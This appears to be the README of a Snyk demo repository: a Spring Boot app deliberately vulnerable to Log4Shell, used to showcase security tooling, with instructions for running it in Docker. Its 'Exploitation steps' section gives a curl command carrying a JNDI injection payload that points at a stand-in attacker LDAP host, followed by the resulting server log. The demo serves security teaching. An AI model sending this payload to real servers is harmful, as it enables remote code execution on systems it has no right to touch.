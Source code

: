 # Snyk demo application

This repository contains a Spring Boot web application vulnerable to [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).
The repository is used to showcase how to secure your application using [Snyk ecosystem](https://snyk.io/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 romanutti/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

* Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'user: ${jndi:ldap://attackers-ldap-server-ip:1389/payload}'
```

* Notice the warning in the server logs, that indicates that a JNDI lookup was tried:

```
2021-12-31 21:28:40.508  INFO 1 --- [           main] c.r.l.v.VulnerableApplication            : Started VulnerableApplication in 3.581 seconds (JVM running for 5.01)
2021-12-31 21:39:21.180  INFO 1 --- [nio-8080-exec-1] o.a.c.c.C.[.[.[/]                        : Initializing Spring DispatcherServlet 'dispatcherServlet'
2021-12-31 21:39:21.180  INFO 1 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2021-12-31 21:39:21.181  INFO 1 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
2021-12-31 21:39:22,308 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://192.168.x.x:1389/payload]. javax.naming.CommunicationException: 192.168.x.x:1389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
        at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
```

## Reference

https://github.com/romanutti/log4shell-snyk-demo/  
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

